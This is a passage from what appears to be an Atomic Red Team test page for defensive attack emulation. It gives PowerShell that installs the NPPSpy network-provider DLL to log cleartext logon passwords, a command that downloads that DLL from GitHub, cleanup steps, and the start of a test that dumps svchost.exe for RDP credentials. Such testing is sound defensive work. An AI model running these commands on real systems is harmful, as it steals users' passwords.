 ```powershell
$rv = New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -Name "ProviderPath" -PropertyType ExpandString -Value "%SystemRoot%\System32\NPPSPY.dll" -ErrorAction Ignore
echo "[!] Please, logout and log back in. Cleartext password for this account is going to be located in C:\NPPSpy.txt"
```

#### Cleanup Commands:

```powershell
$cleanupPath = Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order" -Name PROVIDERORDER
$cleanupUpdatedValue = $cleanupPath.PROVIDERORDER
$cleanupUpdatedValue = $cleanupUpdatedValue -replace ',NPPSpy',''
Set-ItemProperty -Path $cleanupPath.PSPath -Name "PROVIDERORDER" -Value $cleanupUpdatedValue
Remove-Item -Path "HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy" -Recurse -ErrorAction Ignore
Remove-Item C:\NPPSpy.txt -ErrorAction Ignore
Remove-Item C:\Windows\System32\NPPSpy.dll -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: NPPSpy.dll must be available in ExternalPayloads directory

##### Check Prereq Commands:

```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\NPPSPY.dll") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest -Uri https://github.com/gtworek/PSBits/raw/f221a6db08cb3b52d5f8a2a210692ea8912501bf/PasswordStealing/NPPSpy/NPPSPY.dll -OutFile "PathToAtomicsFolder\..\ExternalPayloads\NPPSPY.dll"
```

<br/>
<br/>

## Atomic Test #3 - Dump svchost.exe to gather RDP credentials

The svchost.exe contains the RDP plain-text credentials.
Source: https://www.n00py.io/2021/05/dumping-plaintext-rdp-credentials-from-svchost-exe/

Upon successful execution, you should see the following file created $env:TEMP\svchost-exe.dmp.

**Supported Platforms:** Windows

**auto_generated_guid:** d400090a-d8ca-4be0-982e-c70598a23de9
